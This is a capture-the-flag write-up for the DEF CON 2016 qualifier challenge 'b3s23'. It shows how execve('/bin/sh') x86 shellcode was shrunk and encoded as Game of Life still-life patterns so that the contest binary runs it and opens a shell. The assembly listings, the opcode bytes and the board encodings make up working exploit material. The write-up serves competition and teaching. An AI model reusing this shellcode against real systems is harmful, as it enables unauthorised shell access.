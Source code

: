 # DEFCON Qualifier 2016: b3s23

----------
## Challenge details
| Contest        | Challenge     | Category  | Points | Solves |
|:---------------|:--------------|:----------|-------:|-------:|
| DEF CON CTF Quals 2016 | b3s23 | Coding Challenges |    111 | 34 |

**Description:**

> Please enjoy a Game of Life at b3s23_28f1ea914f8c873d232da030d4dd00e8.quals.shallweplayaga.me:2323
>
> [Download](http://download.quals.shallweplayaga.me/28f1ea914f8c873d232da030d4dd00e8/b3s23)

-------

## Write-up

### Background

From [Wikipedia](https://en.wikipedia.org/wiki/Conway%27s_Game_of_Life) we learn that b3s23 is the standard way of symbolizing Conway's Game of Life, where a cell is born if it has exactly 3 neighbors, survives if it has 2 or 3 living neighbors, or dies if neither is true. 

### Binary Details

```bash
$ file b3s23
ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, stripped
```

### Execution
Upon running the binary we receive the following:
```bash
$ docker run -i legitbs/b3s23
Welcome to b3s23.  Enter x,y coordinates.  Enter any other character to run.
```
It is assumed that we need to enter coordinates in the form x,y (e.g. 1,2) followed by any other character in order to set the positions of the initial live cells on the gameboard and iterate the Game of Life. For example, in order to create a a Block, a [still life](https://en.wikipedia.org/wiki/Still_life_(cellular_automaton)), one could enter the following,
```
0,0
0,1
1,0
1,1
a
```
An excerpt of the output would be
```
110000
110000
000000
```
It was observed from the output that the game was iterating 15 times and then the connnection was closed. The output contained a 110x110 gameboard. I verified that if a coordinate less than 0 or greater than 109 was entered the following error would be printed.
```bash
110,0
Illegal Coordinate!
```
While running it locally, a `Segmentation fault (core dumped)` was reported. The initial assumption was that the result of the final iteration from the Game of Life was being executed by the binary somehow.

### Reverse Engineering

(TBD)

### Solution
To solve this challenge I decided to construct an initial Game of Life board such that the final board would contain assembly code that when executed would provide an interactive shell to the client. I decided to use execve system call to get a shell.

I started with the following execve shellcode,
```c
 int execve(const char *path, char *const argv[], char *const envp[]);
```

```assembly
xor    %eax,%eax        ; "\x31\xC0"
push   %eax             ; "\x50"
push   $0x68732f2f      ; "\x68\x2F\x2F\x73\x68"
push   $0x6e69622f      ; "\x68\x2F\x62\x69\x6E"
mov    %esp,%ebx        ; "\x89\xDC"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    %al, $0xb        ; "\xA0\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"     
```
This shellcode accomplishes the following,

1. Sets eax to 0 and then pushes the value on the stack to Null-terminate the path
2. Pushes the the path string, "/bin/sh", on the stack
3. Moves the address of the path to ebx
4. Sets edx to 0
5. Pushes eax on the stack again (still 0) in order to Null-terminate the argv array
6. Pushes the address of the path on the stack
7. Moves the adddress of the stack pointer to ecx
8. Moves the system call number for execve into al
9. Invokes the system call

I decided to attempt to encode the shellcode using only still life constructions. This would ensure that the entire construction would remain during the 15 iterations. At 28 bytes, the binary encoding of this shellcode would eventually wrap around the 110 bits of the first line of the game board. Wrapping would complicate the ability to stabilize the still life constructions. Therefore, I decided to try and reduce the size of the shellcode to only 13 bytes. 

By setting a breakpoint at `0xf661e000`, the address of the game board, I would be able to determine the state of the registers prior to executing the shellcode. The result was the following

``` assembly
eax     0x0
ecx     0x0
edx     0x1
ebx     0xf67c7000    ; last coordinate address
esp     0xf6ffb6cc
eip     0xf661e000
```

Since the eax register is already set to 0, I could eliminate the `xor eax,eax` instruction. The next four instructions are all used to get the address null-terminated path "/bin/sh" into `ebx`. The `ebx` register contains the address of the last bit that was set due to sending the program a coordinate. If I could encode the "/bin/sh" on the game board and send the program the coordinates for the first bit of the string, then `ebx` would already contain the address of the path. This would eliminate the need for the four instructions.

The path "/bin/sh" encodes to following binary string

```
00101111 01100010 01101001 01101110 00101111 01110011 01101000 
```
Unfortunately, the first bit is not a 1. Therefore I would need to set the coordinate 1 bit before my string and then increment ebx. I was able to encode "/bin/sh" using the following still life construction.

```
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
   00011000000000000000000000000011000110000000011000000000000000000000000000000000000000000000000000000000000000
   00001000000000000000000000000010000010001000010000000000000000000000000000000000000000000000000000000000000000
   00010001011001100101100000000001000100010100000101101100000000000000000000000000000000000000000000000000000000
-->00101111011000100110100101101110001011110111001101101000000000000000000000000000000000000000000000000000000000
   00101000000001000000000110101000001010000000100000000010000000000000000000000000000000000000000000000000000000
   01100100000001100000000000000000011001000001000000000110000000000000000000000000000000000000000000000000000000
   00001100000000000000000000000000000011000001100000000000000000000000000000000000000000000000000000000000000000
   00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```

With this construction in place the shellcode was simplified to the following 14 bytes,

```assembly
inc    %ebx             ; "\x43"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
mov    %esp,%ecx        ; "\x89\xCC"
mov    %al, $0xb        ; "\xA0\x00\x00\x00\x00"
int    $0x80            ; "\xCD\x80"   
```
I then replace `mov %al, $0xb` with `or %al, $0xb` to eliminate 3 bytes. Unfortunately, I was unable to find a still life construction for `mov %esp, %ecx`. So I had to replace these instructions with
```assembly
push esp
pop  ecx
```
resulting in the following shellcode
```assembly
inc    %ebx             ; "\x43"
mov    %dl, 0x0         ; "\xB2\x00" 
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
push   esp              ; "\x54"
pop    ecx              ; "\x59"
or     %al, $0xb        ; "\xB0\x0B"
int    $0x80            ; "\xCD\x80" 
```
With some additionally shuffling of instructions, I was eventually able to find a still life construction for the following shellcode
```assembly
inc    %ebx             ; "\x43"
push   %eax             ; "\x50"
push   %ebx             ; "\x53"
or     %al, $0xb        ; "\xB0\x0B"
push   esp              ; "\x54"
pop    ecx              ; "\x59"
mov    %dl, 0x0         ; "\xB2\x00" 
int    $0x80            ; "\xCD\x80" 
```
The final Game of Life still life construction for the shellcode was
```
01000011010100000101001100001100000010110000110000001000010101000101100110110010000000001100110110000000000000
10100001011010000110100100001100000011010000110000010100101110100110100110110011100000001100110110000000000000
01000010000010000000110000000000000000000000000000001000100000100000000000000000010000000000000000000000000000
00000010110100000110100000000000000000000000000000000000010101000000000000000011100000000000000000000000000000
00000001011000000100100000000000000000000000000000000000001101100000000000000010000000000000000000000000000000
00000000000000000011000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
```
A python solver for this challenge is available [here](https://github.com/samuraictf/writeups/blob/master/defconquals2016/b3s23/b3s23_solve.py)
